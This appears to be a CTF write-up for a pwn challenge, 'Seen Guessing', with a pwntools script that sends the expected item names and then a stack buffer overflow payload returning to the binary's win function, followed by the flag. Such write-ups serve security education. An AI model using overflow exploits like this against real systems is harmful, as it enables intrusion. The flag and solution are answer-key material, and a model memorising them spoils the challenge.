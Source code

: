 # Seen Guessing
Solved by: @w6rstaimn

### Question:
Guess all the seens and you'll be rewarded with something special.

### Solution:
Here is the solution script:
```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
b *0x4013f4
continue
'''.format(**locals())

exe = './chall'
elf = context.binary = ELF(exe,checksec=True)
context.log_level = 'debug'


#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================


io = start()

offset  = 40
names = b'Sonbol Sabzeh Seer Seeb Senjed Samanu'
win = b'A'*offset + p64(elf.sym['win'])

io.sendline(names)
io.recvuntil(b'6/7 guessed')
io.sendlineafter(b':',win)
io.sendlineafter(b':',b'serkeh')
io.interactive()
```

**Flag:** `FMCTF{db8aa102093c65b674a0c216dac7cd73}`

